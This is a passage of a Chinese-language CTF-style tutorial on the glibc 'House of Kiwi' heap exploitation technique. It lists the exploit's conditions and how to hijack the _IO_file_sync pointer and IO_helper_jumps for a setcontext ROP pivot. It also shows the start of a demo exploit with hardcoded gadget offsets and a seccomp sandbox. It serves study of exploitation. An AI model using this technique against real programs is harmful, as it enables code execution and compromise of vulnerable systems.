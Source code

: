 此处会对 top\_chunk 的`size|flags`进行 assert 判断

1.  old\_size >= 0x20;
2.  old\_top.prev\_inuse = 0;
3.  old\_top 页对齐

通过这里也可以触发 assert

进入 assert 后，可以发现 fflush 和 fxprintf 都和 IO 有关，经过调试可以发现在`fflush`函数中调用到了一个指针：位于`_IO_file_jumps`中的`_IO_file_sync`指针，并且发现 RDX 寄存器的值始终为`IO_helper_jumps`指针地址

## 利用条件

1、能够触发 \_\_malloc\_assert

2、能够任意地址写

## 利用思路

通过 largebin attack 等任意地址写的方法，将`_IO_file_jumps + 0x60`的`_IO_file_sync`指针为`setcontext+61`处的特殊 gadget  
修改`IO_helper_jumps + 0xA0 and 0xA8`分别为可迁移的存放有 ROP 的位置和 ret 指令的 gadget 位置

关于特殊 gadget 和 ROP 原理参考文章： [CTF 中 glibc 堆利用 及 IO\_FILE 总结](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_23)

## 示例

源码来自：[House OF Kiwi-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/235598#h3-1)

```bash
// Ubuntu 20.04, GLIBC 2.32_Ubuntu2.2
//gcc demo.c -o main -z noexecstack -fstack-protector-all -pie -z now -masm=intel
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#define pop_rdi_ret libc_base + 0x000000000002858F
#define pop_rdx_r12 libc_base + 0x0000000000114161
#define pop_rsi_ret libc_base + 0x000000000002AC3F
#define pop_rax_ret libc_base + 0x0000000000045580
#define syscall_ret libc_base + 0x00000000000611EA
#define ret pop_rdi_ret+1
size_t libc_base;
size_t ROP[0x30];
char FLAG[0x100] = "./flag\x00";
void sandbox()
{
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    struct sock_filter sfi[] ={
        {0x20,0x00,0x00,0x00000004},
        {0x15,0x00,0x05,0xC000003E},
        {0x20,0x00,0x00,0x00000000},
        {0x35,0x00,0x01,0x40000000},
        {0x15,0x00,0x02,0xFFFFFFFF},
        {0x15,0x01,0x00,0x0000003B},
        {0x06,0x00,0x00,0x7FFF0000},
        {0x06,0x00,0x00,0x00000000}
    };
    struct sock_fprog sfp = {8, sfi};
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &sfp);
}
```